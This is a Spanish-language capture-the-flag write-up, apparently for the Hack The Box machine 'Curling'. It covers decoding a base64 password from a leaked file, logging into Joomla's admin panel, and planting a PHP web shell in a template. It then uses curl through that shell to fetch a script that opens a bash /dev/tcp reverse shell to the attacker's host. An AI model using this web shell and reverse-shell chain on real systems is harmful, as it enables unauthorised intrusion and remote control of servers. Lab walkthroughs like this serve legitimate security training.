 Hacemos #Ctrl+U para inspeccionar el codigo fuente

Nos encontramos al final del codigo fuente de la pagina principal un comentario con un `secret.txt`

Procedemos con: `"http://10.10.10.150/secret.txt"`

Encontramos un hash: `Q3VybGluZzIwMTgh` que parece estar codificado en `base64`

Hacemos un tratamiento de la posible pass encontrada:
```bash
# echo "Q3VybGluZzIwMTgh" | base64 -d       
Curling2018!
``` 

Seguimos comprobando las rutas que nos a enumerado el script de nmap: `"/administrator/"`
Encontramos el Panel Login.
Tenemos:
```bash
User: Floris
Pass: Curling2018!
```
Nos conseguimos loguear correctamente como el user Floris
Una vez dentro nos dirigimos a `TEMPLATES`, elegimos el tema `Beez3` y procedemos a crear un nuevo archivo.
<a href="https://ibb.co/9cqRCyv"><img src="https://i.ibb.co/wBKDxpL/curling-joomla-template-malicius.png" alt="curling-joomla-template-malicius.png" border="0" /></a>

El archivo que vamos a crear va a ser una archivo malicioso `.php`tal que podamos ejecutar comandos a a nivel web para posteriormente lanzarnos una shell
Archivito del Joomla: Nombre: `pros.php`
```php
<?php
    system($_REQUEST['cmd']);
?>
```
Ahora a nivel web vamos a intentar apuntar a nuestro archivo template creado nuevo: `/templates/beez3/pros.php`
Vemos que nos responde y se esta interpretando, procedemos a ejecutar comandos de la siguiente forma:
_foto_
```bash
  "http://10.10.10.150/templates/beez3/pros.php?cmd=whoami"
www-data
``` 
Probamos con las revershell de siempre y vemos que no conseguimos acceso a la maquina.
La Alternativa esta en el uso de CURL para hacer una peticion a un servidor que nos montemos con python3, compartiendo un archivo shell.sh para apunte a nuestro servidor con una Revese_shell:
Archivo `Shell.sh`
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.5/443
```
Teniendo el servidor `python3 -m http.server 80` montado alojando el recurso `Shell.sh`
Procedemos a hacer la Peticion Web:
```bash
  "http://10.10.10.150/templates/beez3/pros.php?cmd=curl%20http//10.10.14.5/Shell.sh"
```
Como output: Vemos que se nos lee el codigo tipo:
`#!/bin/bash bash -i >& /dev/tcp/10.10.14.5/443 0>&1 `
